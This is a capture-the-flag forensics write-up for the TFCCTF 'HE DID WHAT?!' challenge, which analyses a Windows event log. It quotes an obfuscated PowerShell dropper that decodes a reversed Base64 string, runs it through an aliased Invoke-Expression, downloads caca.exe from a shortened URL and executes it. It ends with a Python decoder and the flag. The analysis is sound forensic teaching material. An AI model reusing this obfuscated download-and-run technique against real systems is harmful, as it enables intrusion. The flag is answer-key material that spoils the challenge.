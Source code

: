 ## HE DID WHAT?!

![ảnh](https://github.com/user-attachments/assets/156e1613-cf64-4746-a699-744bc06e0f47)

### Windows Forensics

* file: Challenge.evtx

### Overall

* After attacker connected to our server, he want to extract some data, but it was encrypted

### Solution

* Filter verbose event
* Following the timeline, there are 5 events with ID 4104 (Execute a Remote Command)

![ảnh](https://github.com/user-attachments/assets/9690993c-acff-46b9-9336-3b76c052dcb0)

```
$FBtFFDr8NXp5 = "=oQDiUGel5SYjF2YiASZslmR0V3TtASKpkiI90zZhFDbuJGc5MEZoVzQilnVIRWe5cUY6lTeMZTTINGMShUYigyZulmc0NFN2U2chJUbvJnR6oTX0JXZ252bD5SblR3c5N1WocmbpJHdTRXZH5COGRVV6oTXn5Wak92YuVkL0hXZU5SblR3c5N1WoASayVVLgQ3clVXclJlYldVLlt2b25WS" ;
$w9r4pBoZlnfIzH1keCtX = $FBtFFDr8NXp5.ToCharArray() ;
[array]::Reverse($w9r4pBoZlnfIzH1keCtX) ;
-join $w9r4pBoZlnfIzH1keCtX 2>&1> $null ;
$SCr = [SyStem.TexT.encODINg]::uTF8.GeTsTrInG([SYSteM.coNVErT]::froMBaSe64STrinG("$w9r4pBoZlnfIzH1keCtX")) ;
$uqR = "i"+"N"+"V"+"o"+"k"+"e"+"-"+"E"+"X"+"p"+"r"+"E"+"S"+"S"+"i"+"O"+"n" ;
NEW-aLIaS -naME pWN -VaLuE $uqR -FORCe ;
PWN $SCr ;
.\caca.exe "VHEEVH}x3uwcnad6u3eac3pvaj6tf"
```

* after reversing this object `$FBtFFDr8NXp5`
`Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("aHR0cHM6Ly9zaG9ydHVybC5hdC9pbnl1ag=="))) -OutFile "caca.exe"`

* its download file caca.exe from the url `https://shorturl.at/inyuj` (clean virustotal check)
* reverse this caca.exe

![ảnh](https://github.com/user-attachments/assets/0ec7aba0-91ca-4d60-b2ba-3931b268a70c)

* `.\caca.exe "VHEEVH}x3uwcnad6u3eac3pvaj6tf"`
* code to get original the strings

```
encoded_text = "VHEEVH}x3uwcnad6u3eac3pvaj6tf"
flag=""
for i in encoded_text:
    flag+=chr(ord(i)-2)
print(flag)
```

`TFCCTF{v1sual_b4s1c_a1nt_h4rd}`
